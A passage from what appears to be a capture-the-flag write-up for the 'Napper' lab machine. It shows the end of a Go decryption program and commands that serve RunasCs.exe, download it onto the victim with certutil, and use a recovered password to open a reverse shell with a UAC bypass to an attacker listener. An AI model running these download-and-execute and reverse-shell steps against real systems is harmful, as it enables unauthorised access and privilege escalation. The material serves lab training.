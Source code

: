 ```go
		return
	}

	decryptedText, key1, err := decrypt(*seedPtr, *encryptedBase64Ptr)
	if err != nil {
		fmt.Println("Decryption error:", err)
		return
	}

	fmt.Println("Decrypted text: ", decryptedText, key1)
}
```

```bash
mv ~/Downloads/RunasCs.zip .
7z l RunasCs.zip
unzip RunasCs.zip -d Runas
mv ./Runas/RunasCs.exe Runas.exe
python3 -m http.server 80
```

> **Victime Machine:**

```cmd
certutil -urlcache -f -split http://10.10.14.16/Runas.exe
```

> **Attacker Machine:**

```bash
rlwrap nc -nlvp 443
```

> **Victime Machine:**

```cmd
.\Runas.exe backup LPPHVSVqhLMBZbAiehmyKlqMCmXptyliefMzETwP cmd.exe -r 10.10.14.16:443 --bypass-uac --logon-type 8
# :)
```

> **Attacker Machine:**

```cmd
whoami
#     napper\backup
```

<br />
<img src="{{ site.img_path }}/napper_writeup/Napper_096.png" width="100%" style="margin: 0 auto;display: block; max-width: 900px;">
<br />
<img src="{{ site.img_path }}/napper_writeup/Napper_097.png" width="100%" style="margin: 0 auto;display: block; max-width: 900px;">
<br />
<img src="{{ site.img_path }}/napper_writeup/Napper_098.png" width="100%" style="margin: 0 auto;display: block; max-width: 900px;">
<br />
<img src="{{ site.img_path }}/napper_writeup/Napper_099.png" width="100%" style="margin: 0 auto;display: block; max-width: 900px;">
<br />
<img src="{{ site.img_path }}/napper_writeup/Napper_100.png" width="100%" style="margin: 0 auto;display: block; max-width: 900px;">
<br />
<img src="{{ site.img_path }}/napper_writeup/Napper_101.png" width="100%" style="margin: 0 auto;display: block; max-width: 900px;">
<br /><br />
